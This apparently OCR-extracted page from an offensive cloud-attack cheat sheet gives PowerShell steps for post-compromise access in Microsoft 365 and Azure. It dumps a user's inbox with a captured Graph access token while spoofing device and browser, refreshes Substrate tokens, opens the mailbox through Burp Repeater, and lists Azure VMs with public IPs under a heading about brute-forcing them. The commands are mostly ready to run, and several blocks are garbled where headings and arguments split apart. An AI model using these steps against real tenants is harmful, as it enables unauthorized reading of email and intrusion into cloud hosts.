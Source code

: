 
### take first X emails from user inbox
```powershell 
$folder = 'inbox'
$X = "20"
Dump-OWAMailboxViaMSGraphApi -AccessToken $MSGraphToken.access_token -mailFolder $folder -top $X -Device iPhone -Browser Safari 
```

### Open inbox in browser
### RefreshTo-SubstrateToken -refreshToken 
```powershell 
$response.refresh_token -domain $tenant -Device AndroidMobile -Browser Android
```

### Open-OWAMailboxInBrowser -AccessToken 
```powershell 
$SubstrateToken.access_token -Device Mac -Browser Chrome
```

### Open a new BurpSuite Repeater tab & set the Target to ‘https://Substrate.office.com’
### Paste the below request into Repeater & Send
### Right click the response > ‘Show response in browser’, then open the response in Burp’s embedded browser
### Refresh the page to access the mailbox

### Get all VMs and PublicIps in the subscription
```powershell 
$vms = Get-AzVM

# Loop through each VM and get its public IP address (if it has one)
$publicIps = foreach ($vm in $vms) {
    if ($vm.PublicIpAddress -ne $null) {
        [PSCustomObject]@{
            ResourceGroupName = $vm.ResourceGroupName
            Name = $vm.Name
            PublicIpAddress = $vm.PublicIpAddress
        }
    }
}

## Export the results to a CSV file
$publicIps | Export-Csv -Path "VmIPs.csv" -NoTypeInformation
```



## Brute Force VMs with Public IPs
